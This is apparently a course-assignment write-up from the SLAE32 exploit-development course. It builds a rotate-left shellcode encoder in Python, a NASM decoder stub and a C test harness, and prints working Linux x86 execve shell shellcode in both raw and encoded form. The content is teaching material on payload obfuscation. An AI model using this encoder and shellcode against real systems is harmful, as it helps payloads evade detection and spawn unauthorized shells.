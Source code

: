 For my fourth assignment in the SLAE32 course, I created a custom Rotation Encoder. 
How this works is to encode the payload, it rotates every bit to the left by one. If the greatest bit (valued 128) falls off the left, it wraps around to the lowest bit (valued 1).
Example:

1 0 0 0 1 0 1 0 

0 0 0 1 0 1 0 1

To decode, all the bits are rotated to the right by one. If there is a low bit, it is moved to the highest bit.

0 0 0 1 0 1 0 1

1 0 0 0 1 0 1 0 

The payload used for this example is the `execve` shellcode provided in the SLAE course.

To quickly grab the hex from shellcode, I used the method shown in the SLAE course. 
To make it easier, I added it to a shellscript.
```bash
#!/bin/bash
OBJFILE=$1
objdump -d $(pwd)/${1} | grep '[0-9a-f]:' | grep -v 'file'\
| cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' \
| sed 's/ $//g' | sed 's/ /\\x/g' | paste -d '' -s \
| sed 's/^/"/' | sed 's/$/"/g'
```
Grabbing the shellcode:
```bash
root@zed# ./objdump2hex.sh execve-stack 
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```
Perfect. Now we will need to encode this shellcode using the Python Encoder I created, "`rotateLeftEncoder.py`".
The new encoded shellcode is output in both the '\x' format and the '0x, ' format.
As you can see in the top section, all that needs to be done to change the shellcode payload is replace the string in the shellcode array.
```python
#!/usr/bin/python
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

encoded1 = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
    if x > 127:
        x = x - 128             # Remove the left-most bit
        x = x << 1              # Shift to the left 1
        x += 1                  # Add 1, to complete the rotate
        encoded1 += '\\x'
        encoded1 += '%02x' %x   # Add the rotated left hex to string 
        encoded2 += '0x'
        encoded2 += '%02x,' %x  # Add the rotated left hex to string 
    else:
        encoded1 += '\\x'       # No leftmost bit, just rotate
        encoded1 += '%02x' %(x << 1)
        encoded2 += '0x'        # No leftmost bit, just rotate
        encoded2 += '%02x,' %(x << 1)
    
print encoded1
print encoded2
print 'Len: %d' % len(bytearray(shellcode))
```
Outputting our new, encoded shellcode:
```bash
root# python rotateLeftEncoder.py
Encoded shellcode ...
\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01                   
0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,
Len: 25
```
Our encoded shellcode payload is 25 bytes. We will need to add a final byte to the end "\xff".
This byte will be used by our decoder to let it know it has reached the end of our payload.
We will copy the second output with the "0x, " format to our nasm program after appending the byte.

This assembly program will use the Jump-Call-Pop technique to save the memory location of our string to the stack and then pop that address into the ESI Register. 
Once in the ESI Register, we will decode our encoded shellcode byte by byte using the instructions `ror byte [esi], 1` (rotate to the right one bit, one byte at a time), and `inc esi`. If the decoded byte is `\xff` then we will jump to the shellcode using the instruction `je Shellcode`. 
If the byte is not `\xff` then the zero flag will not be set, and that jump will be ignored. 
The next instruction `jmp short decode` is an unconditional jump. We use this to create the loop to decode our shellcode.
```assembly
; Filename: rotateRightDecoder.nasm
; Author:  Bobby Cooke

global _start

section .text
_start:
        jmp short call_decoder

decoder:
        pop esi

decode:
        ror byte [esi], 1
        cmp byte [esi], 0xFF
        je Shellcode
        inc esi
        jmp short decode
        
call_decoder:
        call decoder
        Shellcode: db 0x62,0x81,0xa0,0xd0,0x5e,0x5e,0xe6,0xd0,0xd0,0x5e,0xc4,0xd2,0xdc,0x13,0xc7,0xa0,0x13,0xc5,0xa6,0x13,0xc3,0x61,0x16,0x9b,0x01,0xff
```
Now that both the decoder and encoder are created, the last thing to do is compile and test.

To compile my Assembly code I used the NASM Compiler with these commands. After creating the object file with NASM, I linked the object file using `ld`.
```bash
nasm -f elf32 rotateRightDecoder.nasm -o rotateRightDecoder.o
ld -o rotateRightDecoder rotateRightDecoder.o
```

I tested the shellcode using the C program shown in the SLAE course.
After extracting the shellcode using the above bash script, I added it to the C program as the `code[]` array.
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0b\x5e\xd0\x0e\x80\x3e\xff\x74\x08\x46\xeb\xf6\xe8"
"\xf0\xff\xff\xff\x62\x81\xa0\xd0\x5e\x5e\xe6\xd0\xd0\x5e"
"\xc4\xd2\xdc\x13\xc7\xa0\x13\xc5\xa6\x13\xc3\x61\x16\x9b\x01\xff";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}
```
To speed up compilation while developing my custom rotation encoder, I created a simple bash script to automate the process.
```bash
#!/bin/bash
SHELLCODE=$1
gcc -fno-stack-protector -z execstack -o shellcode $(pwd)/${SHELLCODE}
```
